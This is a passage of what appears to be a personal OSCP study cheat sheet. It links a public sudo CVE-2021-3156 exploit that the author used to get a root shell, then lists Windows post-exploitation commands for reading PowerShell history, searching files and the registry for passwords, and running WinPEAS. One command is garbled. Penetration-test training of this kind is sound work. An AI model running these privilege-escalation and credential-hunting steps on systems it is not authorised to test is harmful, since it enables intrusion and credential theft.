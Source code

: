 CVE-2021-3156 with sudo version, Sudo version 1.8.31 (OSCP - Relia) <a href="https://github.com/ashok5141/OSCP/blob/main/Linux/exploit_nss.py">MyGit</a></br> 
https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py
```bash
##I tried this "CVE-2021-3156" one, generated some data, finally land on same user anita my sudo version - Sudo version 1.8.31
https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py
>./exploit_nss.py (#Got roo shell)

```
---
# Post Exploitation

> This is more windows specific as exam specific.
> 

<aside>
💡 Run WinPEAS.exe - This may give us some more detailed information as no we’re a privileged user and we can open several files, gives some edge!

</aside>

## Sensitive Information

### Powershell History

```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

#Example
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```

### Searching for passwords

```powershell
dir .s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```

### Searching in Registry for Passwords

```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

<aside>
💡 Always check documents folders, i may contain some juicy files

</aside>

### KDBX Files

